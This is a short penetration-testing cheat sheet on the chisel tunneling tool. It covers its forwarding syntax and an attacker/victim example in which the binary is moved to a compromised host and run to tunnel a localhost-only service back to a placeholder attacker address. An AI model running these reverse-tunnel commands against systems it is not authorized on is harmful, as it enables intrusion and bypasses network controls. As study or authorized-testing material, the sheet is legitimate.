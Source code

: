 # format remote string

```
<local-port> :<remote-host> :<remote-port>   #local-port = port from client
```

Listen on local port and forward it to remote host to remote port

```
R:<local-port> :<remote-host> :<remote-port>   #local-port = listen on local-port on server
```

Listen on local port on server and forward it to remote host on remote port

# listen on server port 135 and forward packets to client on port 9999

```
chisel.exe client so.me.i.p:1337 R:135:localhost:9999
```

# start server

```
chisel server -p 8888 --reverse --host 0.0.0.0
```

# examples 

## service running on victim but only listen on 127.0.0.1:8080

The following example forwards the service running on 127.0.0.1:8080 to the attacker on port 8080.

### attacker 

```bash
chisel server -p 9999 --host 0.0.0.0 --reverse
```

### victim

Move chisel binary to victim.

```bash
./chisel client <attack_ip>:9999 R:8080:127.0.0.1:8080
```
